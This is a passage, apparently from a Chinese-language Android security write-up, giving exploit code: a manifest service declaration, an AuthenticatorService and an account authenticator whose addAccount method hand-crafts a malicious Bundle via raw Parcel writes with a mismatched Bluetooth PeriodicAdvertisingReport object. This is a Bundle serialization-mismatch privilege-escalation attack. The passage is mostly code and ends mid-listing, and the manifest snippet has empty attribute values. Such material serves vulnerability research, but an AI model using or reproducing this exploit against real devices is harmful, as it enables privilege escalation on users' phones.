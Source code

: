 在 AndroidManifest 文件中设置

```
<service android: >
            <intent-filter>
                <action
                    android: />
            </intent-filter>
            <meta-data android:
                android:resource="@xml/authenticator" />
        </service>

```

实现 AuthenticatorService

```
public class AuthenticatorService extends Service {
    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        MyAuthenticator authenticator = new MyAuthenticator(this);
        return authenticator.getIBinder();
    }
}

```

实现 Authenticator，addAccount 方法中构建恶意 Bundle

```
public class MyAuthenticator extends AbstractAccountAuthenticator {
    static final String TAG = "MyAuthenticator";

    private Context m_context = null;

    public MyAuthenticator(Context context) {
        super(context);
        m_context = context;
    }

    @Override
    public Bundle editProperties(AccountAuthenticatorResponse response, String accountType) {
        return null;
    }

    @Override
    public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
        Log.v(TAG, "addAccount");

        Bundle evilBundle = new Bundle();
        Parcel bndlData = Parcel.obtain();
        Parcel pcelData = Parcel.obtain();

        // Manipulate the raw data of bundle Parcel
        // Now we replace this right Parcel data to evil Parcel data
        pcelData.writeInt(2); // number of elements in ArrayMap
        /*****************************************/
        // mismatched object
        pcelData.writeString("mismatch");
        pcelData.writeInt(4); // VAL_PACELABLE
        pcelData.writeString("android.bluetooth.le.PeriodicAdvertisingReport"); // name of Class Loader
        pcelData.writeInt(1);//syncHandle
        pcelData.writeInt(1);//txPower
        pcelData.writeInt(1);//rssi
```